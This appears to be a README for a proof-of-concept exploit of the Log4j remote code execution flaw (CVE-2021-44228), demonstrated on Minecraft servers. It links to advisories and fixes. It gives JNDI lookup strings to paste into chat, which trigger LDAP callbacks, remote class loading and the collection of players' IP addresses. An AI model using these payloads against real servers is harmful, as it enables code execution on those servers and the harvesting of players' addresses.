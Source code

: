 # Log4J-RCE-Proof-Of-Concept (CVE-2021-44228)

This is a proof of concept of the log4j rce.

Here are some links for the CVE-2021-44228:
- https://www.lunasec.io/docs/blog/log4j-zero-day
- https://github.com/advisories/GHSA-jfh8-c2jp-5v3q
- https://github.com/apache/logging-log4j2/pull/608

This bug affects nearly all log4j2 and maybe log4j1 versions. The recommended version to use is 2.15.0 which fixes the exploit.

## Demonstration with minecraft (which uses log4j2)

- Fixes for minecraft are listed here by slicedlime: https://twitter.com/slicedlime/status/1469150993527017483
- Article from minecraft is here: https://www.minecraft.net/en-us/article/important-message--security-vulnerability-java-edition

### Lag or sending serialized data 

- Paste ``${jndi:ldap://127.0.0.1/e}`` in the chat. If there is an open socket on port ``389`` logj4 tries to connect and blocks further communiction until a timeout occurs.
- When using this proof of concept exploit, the log in the console will log ``THIS IS SEND TO THE LOG!!! LOG4J EXPLOIT!`` which is a serialized string object from the ldap server.

![image](https://user-images.githubusercontent.com/7681220/145529175-b6f88cf0-67d0-450b-a834-87942202d594.png)

- Additionally the malicious ldap server receives every ip address where the message is logged. This means that ip adresses of players on a server can be collected which this exploit.

### RCE

- Paste ``${jndi:ldap://127.0.0.1/exe}`` in the chat. If ``-Dcom.sun.jndi.ldap.object.trustURLCodebase=true`` is set to true the remote code execution will happen.

![image](https://user-images.githubusercontent.com/7681220/145529797-a3952c3e-c81e-4e91-b383-490688736f9c.png)

- Fortunately modern jdks disable remote class loading by default. (https://www.oracle.com/java/technologies/javase/8u121-relnotes.html)
- Old versions may still allow this!!


 

